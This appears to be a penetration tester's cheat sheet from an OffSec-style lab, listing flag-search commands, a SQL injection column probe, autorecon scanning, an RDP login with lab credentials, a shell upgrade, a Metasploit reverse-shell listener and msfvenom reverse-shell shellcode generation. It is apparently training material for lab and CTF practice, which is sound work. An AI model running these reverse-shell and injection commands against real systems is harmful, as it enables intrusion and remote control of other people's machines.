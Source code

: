 find ~/ -type f -exec grep -l "OS{" {} \;      ----FLAG FINDER

'ORDER%20BY%206--//            -----ORDER OF COLUMNS IN SQL

find / -name "flag.txt" -print   -----flag finder in Windows environment

.dir /s /b | findstr /i "OS{"

source myenv/bin/activate              --- TO ACTIVATE THE VIRTUAL ENVIRONMENT

Get-ChildItem -Path C:\ -Recurse -File -Filter 'flag.txt'   ---Powershell cmd

sudo env "PATH=$PATH" autorecon 192.168.225.194 ---AUTORECON

```sh
SHELL=/bin/bash script -q /dev/null
```
UPGRADE THE SHELL

PAYLOADS BY TYPE msfvenom -l payloads | grep "cmd/unix*"  ^44c81b

#linux
find / -type f -name flag.txt 2>/dev/null
#windows cmd
where /r c:\ flag.txt
#windows powershell
gci -recurse -File -ErrorAction SilentlyContinue -Path "\" -filter "flag.txt"


 xfreerdp /v:192.168.215.61 /u:offsec /p:lab /drive:C:\,/home/hollacosta/Downloads            IMPORTANT CMD TO MAP A DRIVE WHILE REMOTING INTO A WINDOWS  COMPUTER

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.181;set LPORT 443;run;"
METERPRETER REVERSE SHELL LISTENER

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=8443 -f python -b "\x00\x20" -v shellcode
REGULAR REVERSE SHELL SHELLCODE




